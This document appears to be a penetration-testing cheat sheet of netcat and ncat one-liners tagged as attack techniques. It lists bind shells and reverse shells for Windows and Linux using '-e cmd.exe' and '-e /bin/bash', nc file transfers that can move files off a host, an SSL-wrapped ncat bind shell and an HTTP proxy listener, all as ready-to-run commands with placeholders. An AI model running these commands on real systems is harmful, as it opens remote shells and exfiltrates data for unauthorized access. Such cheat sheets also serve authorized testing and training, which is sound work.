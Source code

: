 # netcat

% nc, netcat

#plateform/linux #target/remote  #cat/ATTACK/LISTEN-SERVE 
## nc setup listener
```
nc -nlvp <lport>
```

## nc bind shell windows
#plateform/windows 
```
nc -nlvp <port> -e cmd.exe
```

## nc bind shell linux
#plateform/linux
```
nc -nlvp <port> -e /bin/bash
```

## nc reverse shell windows
#plateform/windows  #cat/ATTACK/REVERSE_SHELL 
```
nc -nv <ip> <port> -e c:\windows\system32\cmd.exe
```



## nc reverse shell linux
#plateform/linux #cat/ATTACK/REVERSE_SHELL 
```
nc -nv <ip> <port> -e /bin/bash
```

## nc transfer file - receiver
#plateform/linux #cat/ATTACK/FILE_TRANSFERT 
```
nc -nlvp <port> > <incomming_file>
```

## nc transfer file - sender
#plateform/linux #cat/ATTACK/FILE_TRANSFERT 
```
nc -nv <ip> <port> < <file_to_send>
```

# ncat

% ncat

## ncat bind shell ssl filtered
#plateform/linux #cat/ATTACK/LISTEN-SERVE 
```
ncat --exec cmd.exe --allow <allowed_ip> -vnl <port> --ssl
```

## ncat bind shell ssl connection
#plateform/linux #cat/ATTACK/LISTEN-SERVE 
```
ncat -v <ip> <port> --ssl
```

## ncat HTTP WEB proxy
#plateform/linux #cat/ATTACK/LISTEN-SERVE 
```
ncat --listen --proxy-type http <port>
```

